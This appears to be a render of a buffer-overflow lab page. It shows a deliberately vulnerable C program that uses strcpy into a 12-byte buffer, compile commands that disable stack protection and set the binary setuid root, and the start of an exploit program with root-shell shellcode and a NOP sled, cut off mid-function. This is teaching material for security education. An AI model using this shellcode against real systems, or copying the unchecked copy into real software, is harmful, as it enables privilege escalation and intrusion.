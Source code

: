 ```
{
	char buffer[12];

	/* The following statement has a buffer overflow problem */
	strcpy(buffer, str);

	return 1;
}

int main(int argc, char **argv)
{
	char str[517];
	FILE *badfile;

	badfile = fopen("badfile", "r");
	fread(str, sizeof(char), 517, badfile);
	bof(str);
	printf("Returned Properly\n");
	return 1;
}
```
```
$ sudo gcc -g -o stack -fno-stack-protector stack.c
$ sudo chmod 4755 stack
$ sudo execstack -s stack
```

## Exploit skeleton
exploit.c
```
/* exploit.c */

/* A program that creates a file containing code for launching shell*/
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

char shellcode[]=
	// setuid(0)
	"\x6a\x17"			/* push $0x17 */
	"\x58"				  /* pop %eax */
	"\x31\xdb"			/* xor %ebx, %ebx */
	"\xcd\x80"			/* int $0x80 */
	"\x31\xc0"			/* xorl %eax,%eax */
	"\x50"				  /* pushl %eax */
	"\x68""//sh"		/* pushl $0x68732f2f */
	"\x68""/bin"		/* pushl $0x6e69622f */
	"\x89\xe3"			/* movl %esp,%ebx */
	"\x50"				  /* pushl %eax */
	"\x53"				  /* pushl %ebx */
	"\x89\xe1"			/* movl %esp,%ecx */
	"\x99"				  /* cdql */
	"\xb0\x0b"			/* movb $0x0b,%al */
	"\xcd\x80"			/* int $0x80 */
;

void main(int argc, char **argv)
{
	char buffer[517];
	FILE *badfile;

	/* Initialize buffer with 0x90 (NOP instruction) */
	memset(&buffer, 0x90, 517);
```